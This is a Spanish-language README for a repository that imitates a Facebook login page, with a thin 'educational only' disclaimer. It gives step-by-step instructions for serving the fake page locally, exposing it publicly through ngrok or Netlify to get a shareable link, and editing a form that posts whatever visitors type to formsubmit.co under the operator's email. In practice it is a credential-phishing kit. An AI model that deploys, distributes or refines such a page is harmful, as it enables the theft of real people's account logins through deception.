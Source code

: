 # 🌐 Proyecto de Interfaz de Inicio de Sesión

Este repositorio contiene un archivo HTML que simula una interfaz de inicio de sesión para Facebook. El objetivo es aprender cómo funcionan los formularios web y la interacción con servidores locales. **Este proyecto es estrictamente educativo** y no debe usarse con fines maliciosos. 🚫

---

## 📂 Archivos incluidos

- `index.html`: El archivo principal de la interfaz.
- `server.py`: Script en Python para iniciar un servidor local y exponer el proyecto en la red.

---

## 🚀 Opciones para probar el proyecto

### 1️⃣ **Usando Termux o Linux**

#### Requisitos previos

- **Python**: Instálalo en Termux con:
  ```bash
  pkg install python
  ```
- **Ngrok** (opcional para exponer en línea):
  ```bash
  pkg install ngrok
  ```

#### Pasos

1. Clona este repositorio o descarga los archivos.
2. Asegúrate de que el archivo `index.html` y `server.py` estén en el mismo directorio.
3. Ejecuta el script:
   ```bash
   python server.py
   ```
4. Desde el menú, selecciona:
   - `1`: Para iniciar un servidor local en el puerto 8000.
   - `2`: Para exponer el servidor usando ngrok.
5. Abre la URL proporcionada en tu navegador para ver la interfaz.

### 2️⃣ **Usando Netlify**

Si no tienes un entorno Linux o Termux, puedes usar [Netlify](https://netlify.app/) para alojar tu proyecto de forma gratuita y con mayor estabilidad.

#### Pasos para Netlify

1. Ve a [Netlify](https://netlify.app/) y crea una cuenta si no tienes una.
2. Sube tu archivo `index.html`.
3. Netlify generará una URL para tu proyecto que puedes compartir y usar en cualquier navegador.

**💡 Nota**: Netlify es más recomendable si deseas un alojamiento que dure más tiempo sin depender de ngrok.

---

## 🔡 Recomendaciones de seguridad

- **Correo para el formulario**: En el código, reemplaza el correo por uno propio en las siguientes líneas del archivo `index.html`:

  ```html
  <form action="https://formsubmit.co/tu_correo_aqui" method="POST">
  <input type="hidden" name="_email" value="tu_correo_aqui">
  ```

  **Se recomienda usar ProtonMail o Gmail** por su mayor seguridad.

- **Evita el mal uso**: Este proyecto es educativo. Usar este código para recopilar datos sin permiso es ilegal.

---

## ⚙️ Personalización

- Puedes modificar el archivo `index.html` para cambiar el diseño o texto.
- Cambia el puerto del servidor editando la variable `PORT` en `server.py`.

---

## 🖍️ Licencia

Este proyecto está diseñado con fines educativos. Cualquier uso indebido es responsabilidad del usuario.
No soy responsable del mal uso por parte de personas imprudentes o com malas intenciones

**⚠️ Advertencia**: Usa este proyecto solo con fines de aprendizaje.

---

## 👩‍💻 Autor
https://github.com/LuisMiguelsantoslm

Creado por Luis Miguel de los Santos.

---
